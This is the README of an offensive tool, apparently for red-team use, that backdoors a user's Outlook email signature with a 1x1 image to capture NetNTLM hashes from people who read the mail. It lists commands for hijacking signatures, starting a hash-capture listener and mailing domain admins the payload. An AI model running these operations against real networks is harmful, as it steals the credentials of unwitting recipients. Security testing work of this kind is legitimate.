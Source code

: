 # Sigwhatever
For automated exploitation of netntlm hash capture via image tags in emails signatures. This targets Outlook specifically and will insert a 1x1px image into an existing signature block, or create a new signature as required. A listener is then started to capture authentication attempts that happen as a result of sent emails being viewed by other users.

The tool borrows code from the Seatbelt and Inveigh projects - features are:

* Queries the firewall for suitable ports to listen on (Uses some seatbelt code)
* Cross references HttpQueryServiceConfiguration for any usable URL ACLs
* TCP/HTTP server and hash capture (Uses Inveigh code)
* Signature Detection (to modify the appropriate registry settings and signatures)
* Modification of Signature
* Feature to send mail to specific group (e.g. domain admins)
* Option to create encrypted logs on disk
* Cleanup (Reverts changes in signature settings and existing signature)

---

## TL;DR

run:

`execute-assembly sigwhatever.exe AUTO`

Then when you're finished, run:

`execute-assembly sigwhatever.exe CLEANUP`

Bear in mind that even running jobkill on the .net job does not seem to kill the spawned process.

---
## Usage

`SigWhatever.exe [OPTIONS]+ operation`


### OPTIONS:
```
  -p, --port=VALUE           TCP Port.
  -l, --log=VALUE            Log file path.
  -g, --group=VALUE          Target Active Directory group.
  -f, --force                Force HTTP server start.
      --ba, --backdoor-all   Backdoor all signatures.
  -c, --challenge=VALUE      NTLM Challenge (in hex).
  -u, --url-prefix=VALUE     URL Prefix. e.g. /MDEServer/test
  -h, --help                 Show this message and exit.
```

### OPERATIONS:

- **AUTO**: Just do everything for me - backdoor the signature and start the listener on this box.    
  _Usage_: `SigWhatever.exe AUTO`

- **CHECKTRUST**: Check whether the trust zone settings - if the domain isn't in there then this probably won't work.    
  _Usage_: `SigWhatever.exe CHECKTRUST`

- **CHECKFW**: Check whether the host based firewall is on and whether there's an exception for the chosen port.    
  _Usage_: `SigWhatever.exe CHECKFW -p <port>`
  
-  **SIGNATURE**: Hijack the current user's signature, or add a new one via registry changes.    
  _Usage_: `SigWhatever.exe SIGNATURE -p <port> -l <logfile> -u <url prefix> --backdoor-all --force`    
  _Note_: If `--backdoor-all` is not specified then the tool will attempt to get the current signature from Outlook - this may cause a popup for the user if their AV is outdated.

- **SIGNOLISTEN**: Hijack the current user's signature, or add a new one via registry changes.    
  _Usage_: `SigWhatever.exe SIGNOLISTEN -s <server> -p <port> -l <logfile> --backdoor-all>`

- **CLEANUP**: Remove any modifications to the registry or htm signature files.    
  _Usage_: `SigWhatever.exe CLEANUP`

- **EMAILADMINS**: Enumerate email addresses from an AD group and send them a 'blank' email with the payload.    
  _Usage_: `SigWhatever.exe EMAILADMINS -g <Active Directory group> -p <port> -l <logfile> --force`

- **LISTENONLY**: Just start the listener - make sure it's on the same port.    
  _Usage_: `SigWhatever.exe LISTENONLY -p <port> -l <logfile>`

- **SHOWACLS**: List all URL Reservation ACLs with User, Everyone or Authenticated Users permissions.    
  _Usage_: `SigWhatever.exe SHOWACLS`

  
## Authors: 
- David Cash
- Rich Warren
- Julian Storr 
